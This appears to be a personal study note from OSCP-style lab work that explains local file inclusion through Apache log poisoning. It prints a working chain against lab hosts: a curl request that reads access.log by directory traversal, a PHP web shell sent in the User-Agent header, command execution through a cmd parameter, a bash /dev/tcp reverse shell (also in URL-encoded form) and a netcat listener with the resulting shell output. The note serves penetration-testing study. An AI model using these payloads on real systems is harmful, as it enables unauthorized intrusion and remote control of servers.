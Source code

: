 
# Local File Inclusion (LFI)
Many people mix up local file inclusion and [directory traversal](directory-traversal.md), but they are very different. THe biggest difference b/w them is that local file inclusion results in a file bing *included in the application's running code*, which ultimately means it can be leveraged for *code execution*. Directory traversal, on the other hand, just results in the attacker being able to *read* the file (not execute it). 

One way to identify an LFI from directory traversal is *how the file is displayed* on the webpage/etc when accessed. For example, an image file like a jpeg which is accessed through a directory traversal will be displayed as raw jpeg data in ASCII. A jpeg file accessed through LFI will be rendered as the actual image by the server.
## Log Poisoning
One way to achieve LFI is through log poisoning. Log poisoning occurs when the malicious data we send to the server is saved in the web server's logs. If you can find a way to get *executable code* saved in the server's log files, then it will execute (if we access it through an LFI).
### Example: `access.log`
Depending on the version, Apache servers usually include an `access.log` file which is usually found in `/var/log/apache2`. To figure out which user input is included in the log file, we can either read the documentation, find examples of it online, or (if the server is vulnerable to directory traversal) access the log file ourselves.

Assuming the server is vulnerable to directory traversal via a php parameter, we might use directory traversal to access it like this:
```bash
curl 'http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log' --path-as-is

192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
From the output, we can see that our user agent and the requested URL path are included in the logs. So, we can try to get code execution by inserting our own code into `access.log` via either the user agent of the file path.
#### User Agent
Using [burp suite](../../cybersecurity/TTPs/delivery/tools/burp-suite.md)'s Repeater tab, we can create the following [HTTP](../../www/HTTP.md) `GET` request and manipulate the user agent string that is sent with the request:
```http
GET /meteor/index.php?page=admin.php HTTP/1.1
Host: 192.168.216.16
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
Accept: text/html, application/xhtml+xml,application/xml
...
```
We can also do this with [curL](../../CLI-tools/linux/remote/curL.md):
```bash
curl --path-as-is -i -s -k -X $'GET' -H $'Host: 192.168.216.16' -H $'User-Agent: Mozilla/5.0 <?php echo system($_GET[\'cmd\']); ?>' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-Us,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1'   $'https://192.168.216.16/meteor/index.php?page=admin.php'
```
##### Sending the `ps` command
Assuming our request was written to the log file, we can try to execute it by leveraging the directory traversal vulnerability. To do that, we'll send a similar request, but this time we'll request the parameter we injected into the log files via our php script (`cmd`). If it works correctly, then PHP will execute whatever *linux based* command we give it in the next [curL](../../CLI-tools/linux/remote/curL.md) request:
```bash
curl http://192.168.216.16/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
If this works, the response should include output from the underlying linux system where the `ps` command was run (so we should be a list of running processes). 
![](../oscp-pics/local-file-inclusion-1.png)
##### Sending the `ls -la` command
If we update our request to send the linux `ls -la` command, we get the following error:
![](../oscp-pics/local-file-inclusion-2.png)
This is because of the space between `ls` and the flag. We need to *URL encode* the space to prevent the error and successfully execute the code in `access.log`. So, change the url in our request and replace the space with `%20`. It should look like: `/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la`.
![](../oscp-pics/local-file-inclusion-3.png)
### Escalating to a Reverse Shell
Now that we've verified code execution on the target, we can leverage this to get a [rev-shell](../../cybersecurity/TTPs/exploitation/rev-shell.md)! To do this, we'll replace the value we've given `cmd` to a common [bash](../../coding/languages/bash.md) one-liner:
```bash
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```
This command starts a bash shell in interactive mode (with the `-i` flag). It also uses the `>` and `&` to *redirect stdout and stderr* from the bash process *to the device file `/dev/tcp/192.168.119.3/4444`*. This is important because `>` will *create the file if it doesn't exist*. The [device-file](../../computers/linux/device-file.md) created by this one-liner will try to establish a [TCP](../../networking/protocols/TCP.md) connection to `192.168.119.3` on port `4444`. So, theoretically, the IP address is *our machine* and we need to have some kind of listener already listening to port `4444` so we can catch the connection the script will try to make with us (this is why it's called a reverse shell). 

The `0>&1` portion of the command says that input/stdin for the bash shell (file descriptor `0`) should be *read* from the same source as stdout (file descriptor `1`) is being written to (which we set to the connection made by `/dev/tcp/192.168.119.3/4444`). So basically, this command will start a bash shell process, and open a TCP connection to a remote host (which is really us). The bash shell will read input from the TCP connection and write its output back to the TCP connection.
#### Fixing the command
Because PHP is ultimately what will execute our command, there's a chance that *sh* (Borne Shell) will be executed instead of bash (Bourne Again Shell). Our oneliner is written with syntax that sh will not understand and execute. To protect our payload and ensure it gets execute correctly by PHP, we can edit it so that bash is ultimately the shell process that gets started and executes our rev shell. 

To fix it, we're just going to wrap it in another bash command. This will ensure that a bash shell process will be started to execute our rev shell and not a sh process:
```bash
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
```
The `-c` flag tells bash (or sh) to execute the following string as a command. So, when this oneliner gets executed, ultimately two bash processes will have been started, the wrapper (`bash -c`) and the command we give the wrapper (the string).

Before sending this, we also have to make sure to URL encode it so the spaces don't cause an HTTP error:
```http
GET http://192.168.204.16/meteor/index.php?page=../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.245%2F4444%200%3E%261%22 HTTP/1.1
host: 192.168.204.16
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
content-length: 0
```
#### Setting up a listener
Now that our request body with the payload is ready, we need to set up a listener on port `4444` to listen and connect to the incoming request. Otherwise, even if the revshell works, we won't know because the port on our computer is closed and won't accept the incoming TCP connection.

To do this, we can use [netcat](../../cybersecurity/TTPs/exploitation/tools/netcat.md) as a listener. The following netcat command will put netcat into listen mode. We'll give netcat port `4444` to listen on, but we don't have to give an address. Without an address, netcat will default to listening to the *any* address `0.0.0.0`. Basically, the any address means netcat will listen on *all network interfaces* for connections coming in to port `4444`.
```bash
nc -nvlp 4444
listening on [any] 4444 ...
```
Once we see netcat is listening, we can send our modified GET request with our revshell payload:
![](local-file-inclusion-4.png)
If it works, the output in netcat should reflect that:
```bash
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...

connect to [192.168.119.3] from (UNKNOWN) [192.168.50.16] 57848
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fbea640f9802:/var/www/html/meteor$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
From the output, we can see that our revshell executed successfully and given us an interactive bash shell into the target machine. The PHP process that executed the shell executed it as the user `www-data` from the directory `/var/www/html/meteor`.  Using `ls` to list the content of the directory the shell executed from, we can even see our `admin.php` file.
## LFI in Other Contexts
The only real difference in exploiting LFI on a Windows target than a Linux one is the file paths and languages  executing the code. For instance, the PHP script used to execute commands in the last Linux example would work the same if executed on a Windows host. This is because the PHP system function used to execute the code snippet is independent of the operating system (it knows how to change the execution on the underlying OS to achieve the same result).

What's more important than the operating system of the target is the *web application's programming language*, its version, and how the server is configured. In other words, PHP is not the only framework or server-side scripting language which can be abused for LFI and RFI vulnerabilities.
### LFI in Java Server Pages
As an example, lets investigate LFI in a JSP web application. If we try to carry out the same sequence of events as mentioned in the Log Poisoning section,  we would be trying to write JSP code to some kind of log file (Log Poisoning), and then access the file using LFI. The only difference would be the code snippet we inject into the log (it would be in JSP instead of PHP). 

However, PHP is going to be the most common scripting language you'll come across for LFI vulnerabilities. That's because the other web scripting languages like JSP are dated and not implemented as often. We're also likely to find them in [javascript](../../coding/languages/javascript.md)/ Node implementations. But, LFI vulns are not as common as they used to be because web security has improved.

> [!Resources]
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.